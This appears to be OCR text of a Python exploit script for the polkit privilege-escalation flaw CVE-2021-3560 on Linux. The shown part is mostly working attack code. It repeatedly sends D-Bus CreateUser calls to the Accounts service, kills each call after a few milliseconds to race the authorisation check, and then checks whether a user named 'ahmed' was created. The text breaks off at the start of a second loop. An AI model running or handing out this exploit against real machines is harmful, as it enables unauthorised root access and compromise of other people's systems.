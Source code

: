 ```shell
print("Exploit: Privilege escalation with polkit - CVE-2021-3560")

print("Exploit code written by Ahmad Almorabea @almorabea")

print("Original exploit author: Kevin Backhouse ")

print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")

print ("**************")

print("[+] Starting the Exploit ")

time.sleep(3)

check = True

counter = 0

while check:

counter = counter +1

process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])

try:

#print('1 - Running in process', process.pid)

Random = random.uniform(0.006,0.009)

process.wait(timeout=Random)

process.kill()

except subprocess.TimeoutExpired:

#print('Timed out - killing', process.pid)

process.kill()

user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')

if user.find("uid") != -1:

print("[+] User Created with the name of ahmed")

print("[+] Timed out at: "+str(Random))

check =False

break

if counter > 2000:

print("[-] Couldn't add the user, try again it may work")

sys.exit(0)

for i in range(200):

```